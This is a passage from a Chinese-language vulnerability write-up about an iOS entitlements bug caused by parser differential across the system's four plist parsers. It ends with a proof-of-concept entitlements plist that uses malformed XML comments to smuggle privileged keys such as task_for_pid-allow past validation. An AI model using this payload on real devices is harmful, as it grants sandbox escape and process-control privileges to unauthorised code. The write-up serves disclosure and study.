 ```
    entitlements-&gt;release();
    return value;
`}`

```

太棒了, 现在我们掌握了一个基于OSUnserializeXML的用于entitlements检查的参考实现。确实如此吗?

关于这个缺陷有一个很无厘头的事情, 我没办法指着特定的代码告诉你是这里导致的Bug。之所以如此, 是因为iOS实现了不止一个plist解析器, 甚至不止两个, 三个。iOS实现了至少4个plist解析器, 分别是:
<li>
`OSUnserializeXML` 位于 kernel</li>
<li>
`IOCFUnserialize` 位于 IOKitUser</li>
<li>
`CFPropertyListCreateWithData` 位于 CoreFoundation</li>
<li>
`xpc_create_from_plist` 位于 libxpc (闭源)</li>
由此引起了三个有趣的问题:
1. 哪个解析器用于解析entitlements?
1. 哪个解析器被amfid采用?
1. 所有解析器的解析结果都相同吗?
三者的答案分别是
1. 全都用到了
1. CFPropertyListCreateWithData
1. 并不
由于正确解析XML异常困难, 因此对于有效的XML所有解析器返回相同的数据, 而稍微无效的XML它们会返回略有不同的数据。

换言之, 可以利用解析器的不同来使不同的解析器看到不同的内容。这是该Bug的核心, 使它不局限于逻辑缺陷, 更成为系统设计缺陷。

在继续exploit之前我想指出, 在所有测试中OSUnserializeXML和IOCFUnserialize始终返回相同的数据, 因此在本文的其余部分中我将它们视为等效。为简便起见, 我将 OSUnserializeXML/IOCFUnserialize简称为“IOKit”, CFPropertyListCreateWithData简称为“CF”和xpc_create_from_plist简称为“XPC”。



## 3. 漏洞利用

让我们从我发推的PoC变体开始, 这可能是利用此Bug的最优雅的方式：

```
&lt;?xml version="1.0" encoding="UTF-8"?&gt;
&lt;!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd"&gt;
&lt;plist version="1.0"&gt;
&lt;dict&gt;
    &lt;!-- these aren't the droids you're looking for --&gt;
    &lt;!---&gt;&lt;!--&gt;
    &lt;key&gt;platform-application&lt;/key&gt;
    &lt;true/&gt;
    &lt;key&gt;com.apple.private.security.no-container&lt;/key&gt;
    &lt;true/&gt;
    &lt;key&gt;task_for_pid-allow&lt;/key&gt;
    &lt;true/&gt;
    &lt;!-- --&gt;
&lt;/dict&gt;
&lt;/plist&gt;
```
